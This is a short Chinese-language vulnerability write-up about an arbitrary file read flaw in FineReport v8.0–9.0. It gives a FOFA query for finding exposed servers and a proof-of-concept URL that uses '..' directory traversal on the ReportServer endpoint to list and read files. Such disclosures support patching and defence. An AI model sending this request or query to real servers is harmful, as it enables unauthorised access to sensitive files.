



## 帆软报表 v8.0 - 9.0 存在任意文件读取漏洞

## 漏洞描述

FineReport v8.0 - 9.0 任意文件读取漏洞，攻击者可以通过此漏洞获取敏感信息，为下一步攻击做准备。

## 漏洞影响

> FineReport v8.0
>
> FineReport v9.0

## FOFA

> body="isSupportForgetPwd"

## POC

登录界面如下：

 

 

 

查看当前目录路径

```
http://<target>/WebReport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=..¤tUserName=admin¤tUserId=1&isWebReport=true
```

 

进一步读取此目录下的其他文件



可以通过../对目录进行遍历，从而获取自己想要的信息

